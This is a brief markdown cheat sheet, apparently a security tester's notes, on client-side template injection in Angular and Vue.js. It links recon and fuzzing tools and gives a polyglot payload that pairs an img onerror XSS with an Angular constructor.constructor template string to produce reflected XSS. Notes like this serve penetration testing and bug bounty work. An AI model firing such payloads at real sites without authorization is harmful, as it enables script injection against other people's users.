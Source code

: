 # CSTI

```
- angular -> directives: ng-* 
- vueJS 
    - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected
- paramspider/waybackurls -> httpx -> bhedak 
- https://github.com/R0X4R/bhedak
```

CSTI -> Reflected XSS

with inject payload we create reflected xss in CSTI. if we do not known target template engine we use polyglot payload

### polyglot payload

```
- polyglot -> "><img/src=x onerror=alert(1)>{{constructor.constructor('alert(1)')()}} -> <borna{{constructor.constructor('alert(1)')()}}
- FFUF
```

### automation

```
- FFUF -> Custom Send To Burp Externsion 
    - https://github.com/bytebutcher/burp-send-to
```

